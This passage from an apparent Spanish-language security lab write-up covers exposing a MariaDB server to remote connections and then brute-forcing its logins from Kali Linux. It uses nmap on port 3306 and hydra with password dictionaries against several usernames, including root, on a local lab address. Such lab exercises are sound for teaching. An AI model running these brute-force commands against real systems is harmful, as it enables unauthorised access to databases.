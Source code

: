 
Y modificar también la parte de `bind-addres` que viene por defecto con `127.0.0.1` por `0.0.0.0` para permitir las conexiones remotas.

Reinicio el servicio:

``` bash
sudo systemctl restart mariadb
```

Y con esto el servidor mysql esta configurado ahora pasaré a la parte de Kali Linux.

## En Kali Linux:

Lo primero es tener en cuenta las ips, tanto la de la máquina servidor como la atacante. Dicho esto, lo primero que voy a hacer es escanear el puerto `3306` que es el utilizado por `mysql`, y con  `-vvvv` para tener mas información, de la máquina servidor:

``` bash
nmap -p 3306 10.0.2.15 -vvvv
```

<img src="img/mysql8.png" width="600">


Lo que me devuelve que el puerto 3306 esta abierto por lo que puedo proceder con el ataque.

Lo siguiente es preparar los diccionarios que voy a usar. He creado 2 diccionarios, uno con `contraseñas` y otro con `usuarios`, para probar 2 casos, uno en el que me sé el usuario pero no la contraseña y viceversa.

Para empezar el ataque, le especifico a hydra con `-l minúscula, que conozco el usuario` y con `-P mayúscula que no conozco la contraseña`. Para ello utilizo mi diccionario de contraseñas probando diferentes usuarios, por ejemplo:

### **Usuario gabriel:**

``` bash
hydra -l gabriel -P /usr/share/wordlists/diccionario.txt mysql://10.0.2.15 -vvvv
```

<img src="img/mysql2.png" width="600">

### **Usuario root:**
  
``` bash
hydra -l root -P /usr/share/wordlists/diccionario.txt mysql://10.0.2.15 -vvvv
```

<img src="img/mysql3.png" width="600">

### **Usuario Raul:**

``` bash
hydra -l Raul -P /usr/share/wordlists/diccionario.txt mysql://10.0.2.15 -vvvv
```

<img src="img/mysql7.png" width="600">
